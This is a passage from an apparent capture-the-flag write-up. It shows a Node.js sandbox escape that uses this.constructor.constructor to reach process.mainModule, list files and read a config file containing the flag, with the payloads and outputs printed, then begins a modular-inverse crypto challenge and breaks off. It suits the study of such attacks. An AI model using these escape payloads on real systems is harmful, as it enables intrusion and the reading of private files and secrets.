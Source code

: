     
    
    this.constructor.constructor("return process.mainModule")();
    

I get:

    
    
    { id: '.',
    exports: {},
    parent: null,
    filename: '/app/node_modules/sandbox/lib/shovel.js',
    loaded: true,
    children: [],
    paths:
    [ '/app/node_modules/sandbox/lib/node_modules',
    '/app/node_modules/sandbox/node_modules',
    '/app/node_modules',
    '/node_modules' ] }
    

So I’ll use the `fs` module to do a dirwalk:

    
    
    this.constructor.constructor("return process.mainModule.require('fs').readdirSync('.').toString()")();
    
    
    
    'config.json,config.json~,docker-compose.yaml,dockerfile,dockerfile~,index.html,main.js,node_modules,package-lock.json,package.json,run.js'
    

And I can get the contents of the config file, which contains the flag
according to the source:

    
    
    this.constructor.constructor("return process.mainModule.require('fs').readFileSync('config.json').toString()")();
    
    
    
    '{\n "flag":"HV18-YtH3-S4nD-bx5A-Nt4G",\n "port":3000\n}\n\n'
    

**Flag: HV18-YtH3-S4nD-bx5A-Nt4G**

## Day 11

### Challenge

![1545307445262](https://0xdfimages.gitlab.io/img/1545307445262.png)

### Solution

Last year I had to solve a similar problem by finding the mod inverse of b in
mod p. I can do the same this year, but the resulting a isn’t easily
translated to hex or ascii.
